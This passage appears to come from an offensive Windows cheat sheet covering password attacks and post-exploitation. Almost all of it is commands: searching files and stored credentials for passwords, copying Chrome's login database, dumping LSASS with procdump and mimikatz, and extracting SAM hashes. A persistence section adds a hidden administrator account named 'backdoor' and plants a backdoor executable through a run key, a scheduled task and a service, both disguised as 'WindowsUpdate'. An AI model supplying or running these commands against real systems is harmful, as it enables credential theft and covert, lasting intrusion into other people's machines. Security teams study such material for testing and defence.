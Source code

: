 ### 7. Password Attacks

#### Credential Hunting
```cmd
# Search for credentials in files
findstr /si password *.txt *.xml *.config *.ini
dir /s *pass* == *cred* == *vnc* == *.config*

# Check for stored passwords  
cmdkey /list

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile <SSID> key=clear

# Browser passwords (Chrome example)
copy "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Login Data" login.db
# Use ChromePass or similar tool offline
```

#### Hash Dumping
```cmd
# LSASS dump (requires elevated privileges)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Use mimikatz offline
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

# SAM dump
reg save HKLM\sam sam.hiv
reg save HKLM\system system.hiv
impacket-secretsdump -sam sam.hiv -system system.hiv LOCAL
```

## Post-Exploitation

### Persistence Mechanisms
```cmd
# Create new user
net user backdoor Password123! /add
net localgroup administrators backdoor /add

# Registry run key
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\backdoor.exe"

# Scheduled task
schtasks /create /sc onstart /tn "WindowsUpdate" /tr "C:\backdoor.exe" /ru system

# Service creation
sc create "WindowsUpdate" binpath="C:\backdoor.exe" start=auto
sc start "WindowsUpdate"
```
